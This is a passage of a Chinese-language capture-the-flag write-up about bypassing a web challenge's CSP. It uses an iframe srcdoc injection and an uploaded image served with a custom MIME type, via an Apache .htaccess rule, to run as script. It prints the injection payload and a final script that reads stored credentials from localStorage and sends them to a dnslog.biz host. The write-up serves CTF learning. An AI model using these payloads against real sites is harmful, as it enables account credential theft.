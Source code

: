 另外，这个题CSP规则是不完整的，并没有禁止`iframe`（如果有`X-fram-options: deny`之类的规则就不行了）。`iframe`的srcdoc属性可以指定一个字符串为iframe的内容，而这个`srcdoc`里引入的script tag会绕过HTML5标准对`innerHTML`的限制。但与此同时，我在`iframe`的`srcdoc`里引入主站的资源，又会被认为是同源的，不会被CSP规则阻止（这个点在我看来颇为诡异，除非认为主页面和iframe.srcdoc是同源的，不然这个script只是对于主页面是同源的，对iframe来说就不应该同源。当然可能把iframe.src指定为跨域，就不算同源了，说不好）

从结果来看，使用这样的payload:
```html
/login?error=</p><iframe srcdoc="<script src='/picture?username={{user}}'></script>"></iframe><p>
```
就能把之前上传的图片当成javascript代码加载并运行。


#### 定制MIME Type
根据手头资源，我还是使用了BUUOJ提供的Apache服务器，host一个jpg文件（不需要是真的），然后改变其mime type。具体来说：

- 在config文件中，添加这个设置，并`service apache2 restart`
```xml
<Directory "/var/www/html">
	AllowOverride FileInfo
</Directory>
```
- 加入一个`.htaccess`文件，加入:`AddType '{{code}}' ".jpg"`，其中`{{code}}`是mimetype

到这一步就可以定制mimetype了，我们可以上传到我们控制的账户作为头像。

接下来就是如何让这个data协议的数据成为一段合法的javascript代码，在只可控mime的情况下，我们可以：
- 掐头：以`1;`开头，`data:1;`似乎是一行合法的javascript代码，虽然不知道为什么。这样会阻止报错。
- 去尾：注释：`//`

最后需要处理一些细节问题：
- Apache返回的mime type是全小写的，因此如果需要大写字母（`localStorage`）需要想办法绕过（`window["local\x53torage"]`）
- eval禁用，因为`eval`属于`unsafe-eval`，并不属于同源。

通过分析代码可以知道，credential是在localStorage里的。所以最终我们需要把XSSBOT的localStorage中的值带出来。具体做法在上面都展示了，不再赘述。最终MIME Type是：

```javascript
1;console.log("execed");var ls=window["local\x53torage"];
var u=ls["username"] ?? "no"; var p=ls["password"] ?? "no";
fetch("https://"+ls.username+"."+ls.password+".31f767c0.log.dnslog.biz");//
```

当我们看到一条`310d0b5bed9d16b83b76998131801567.078942ab69083745a318f253a343fcfa.31f767c0.log.dnslog.biz.`的解析记录时，就知道已经成功了。

#### 碎碎念

我反应过来XSSBOT是有admin权限账户的credential其实过了很久。当然这可能和我不熟悉nodejs的http模块有关，比如下面这一长串代码其实只相当于`express`的`req.body`（当然可能还是不完全一样，下面data返回的是字符串）

```js
const body: Buffer[] = []
req.on('data', (chunk) => body.push(chunk))
await new Promise((resolve) => req.on('end', resolve))

const data = Buffer.concat(body).toString()
```
另外这个题只给了服务端`typescript`代码，我一直没把环境搭好，所以一直是静态分析。
